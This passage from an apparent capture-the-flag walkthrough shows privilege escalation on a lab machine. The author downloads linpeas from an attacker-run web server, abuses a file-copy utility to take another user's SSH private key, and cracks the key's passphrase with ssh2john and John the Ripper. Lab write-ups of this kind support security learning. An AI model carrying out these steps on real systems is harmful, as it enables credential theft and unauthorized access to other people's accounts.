 For privilege escalation we will download linpeas from our python server.

```

└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.21.94 - - [14/Oct/2022 18:18:15] "GET /linpeas.sh HTTP/1.1" 200 -

```

```
www-data@olympus:/tmp$ wget http://10.9.11.107/linpeas.sh
--2022-10-14 22:18:15--  http://10.9.11.107/linpeas.sh
Connecting to 10.9.11.107:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776073 (758K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 757.88K   872KB/s    in 0.9s    

2022-10-14 22:18:16 (872 KB/s) - ‘linpeas.sh’ saved [776073/776073]

www-data@olympus:/tmp$ chmod +x linpeas.sh 
www-data@olympus:/tmp$ ./ linpeas.sh

```

One file that stands out is `/usr/bin/cputils`

```
www-data@olympus:/dev/shm$ /usr/bin/cputils
  ____ ____        _   _ _     
 / ___|  _ \ _   _| |_(_) |___ 
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/
                               
Enter the Name of Source File: /home/zeus/.ssh/id_rsa

Enter the Name of Target File: /dev/shm/id_rsa

File copied successfully.
www-data@olympus:/dev/shm$ ls -la /dev/shm
drwxrwxrwt  2 root root       80 Oct 15 13:34  .
drwxr-xr-x 19 root root     3920 Oct 15 13:24  ..
-rw-rw-rw-  1 zeus www-data 2655 Oct 15 13:34  id_rsa
```

If we try to use ssh with id_rsa we can't because there is a passphrase. But in our arsenal lies ssh2john and john the ripper so 
let's use them. 

```
# ssh2john id_rsa > id_rsa_hash
# john --wordlist=/root/Desktop/rockyou.txt id_rsa_hash                                  
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
---redacted---        (id_rsa)     
1g 0:00:00:43 DONE (2022-10-15 09:41) 0.02320g/s 34.89p/s 34.89c/s 34.89C/s maurice..bunny
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
